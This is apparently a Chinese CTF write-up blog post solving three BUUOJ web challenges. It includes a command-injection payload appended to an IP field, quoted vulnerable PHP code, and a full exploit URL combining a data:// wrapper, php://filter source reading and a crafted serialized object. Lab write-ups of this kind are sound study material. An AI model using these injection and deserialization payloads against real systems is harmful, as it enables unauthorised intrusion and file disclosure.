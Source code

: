```yaml
---
layout: article
mathjax: true
tag: buu
---
```


# buu摸鱼日记（4）

## [ACTF2020 新生赛]Exec

这比我预料的还简单

payload 127.0.0.1 & find / -name "flag*"

就会发现更目录里就有个flag

cat flag秒了



## [ZJCTF 2019]NiZhuanSiWei

一开始看到这个题

```php
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

就去搜索file_get_contents()

https://www.php.net/manual/zh/function.file-get-contents.php

于是我就开始大胆尝试（~~自作聪明~~）

文档里面指出是可以用url的，我就在我的vps上写了一个socket，访问就会回复welcome to the zjctf

然而，并没有什么卵用(太真实了)

没了思路的我就只好去看wp了

首先，利用data伪协议进行输入。

https://juejin.im/post/5d79b49551882539aa5ad496

data伪协议就可以封装一个数据，比如在图片的地方去除http请求

很轻松就过了if



第二个

显然不能直接读取flag.php，只好去读useless.php，很自然的用php://filter

读取出来里面是个对象，更加自然的想到这个是个反序列化

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

里面就$file一个变量，直接写一个序列化输入进去

```php
<?php 
class Flag{  //flag.php  
    public $file="flag.php";  

}  
	$a = new Flag();
	echo(serialize($a));
?> 
```

然后

```url
http://f6895169-c0dc-4932-b323-bf79dd80d58c.node3.buuoj.cn/?text=data://text/plain,welcome%20to%20the%20zjctf&file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}
```

flag在注释里

## [ACTF2020 新生赛]BackupFile

走弯路了

本来应该秒的

拿dirsearch扫了半天，无果

随手打了个index.php.bak

草，就下载下来源码了

 穿了个参数就秒了（ACTF还蛮简单的）